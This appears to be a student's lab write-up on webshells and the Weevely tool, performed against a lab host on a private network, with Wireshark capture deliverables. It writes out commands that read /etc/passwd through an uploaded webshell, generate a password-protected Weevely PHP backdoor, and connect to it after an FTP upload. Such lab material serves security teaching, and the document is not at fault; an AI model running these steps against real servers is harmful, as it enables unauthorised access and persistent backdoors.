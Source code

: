 # Lab 8.1 - Weevely💡

Webshells like simple-backdoor.php are effective but are not terribly stealthy. Basic IDS/IPS systems will be able to detect "shell-like" behavior by seeing content that looks like commands, prompts and sensitive files like /etc/passwd.

Wireshark Capture of traditional webshellTarget pippin with a traditional webshell (one without encryption or obfuscation). Capture a dump of /etc/passwd using Wireshark on your wg0 interface.



## Deliverable 1. Provide a screenshot that shows the relevant tcp stream similar to the one below. Create a capture filter on port 80 when you do so.

![image-20221105231720500](./images/1.png)

`curl 'http://10.0.5.25/upload/navarro.php?cmd=cat+/etc/passwd'`

![img](https://lh3.googleusercontent.com/ZvriBmNKkEeZZbJwIImROwXt_9QpjiwcG6_a3YaeM6j372IH0iOQk0OSr8x_l4OpCt_6j8tq2wfIYdddEs7zLuqhfHKykU3lnaTF3VXzonbi-2LUtqfHFtiyUvOIux3Mp_zQI8txeadEByYLQ0cnP_iG3I1YD7rc_FDiJUQzqwzJ74gIBOUe6VLgd4F8gw)



## Deliverable 2. Investigate weevely (a tool in kali). Create a php agent that is uniquely named, upload the agent to pippin and carry on a session similar to the one shown in the screenshot. Provide a screenshot of your session

To generate an agent I used the following link https://null-byte.wonderhowto.com/forum/hiob-generate-web-backdoors-php-using-weevely-kali-linux-0158905/

according to null-byte.wonderhowto.com. weevely generate [password] [path for agent to be saved]



First I used the following command to generate weevely:

`weevely generate LOL /home/champuser/Desktop/week8/door3.php`

And then uploaded the file inside the ftp server:

![2](./images/2.png)

Next I used the following command to login:

`weevely http://10.0.5.25/upload/door3.php LOL`

![3](./images/3.png)

## Deliverable 3. Provide a screenshot similar to the one below that displays the encoded tcp stream from a weevely dump of /etc/passwd. Make sure to use a capture filter of port 80, to limit traffic.

![image-20221105230845175](./images/4.png)



![image-20221105230946980](./images/5.png)





## reflections:

It was great lab I learned a lot. I did not know it is that easy to generate a backdoor, I thought we have to write the code for the php backdoor.
























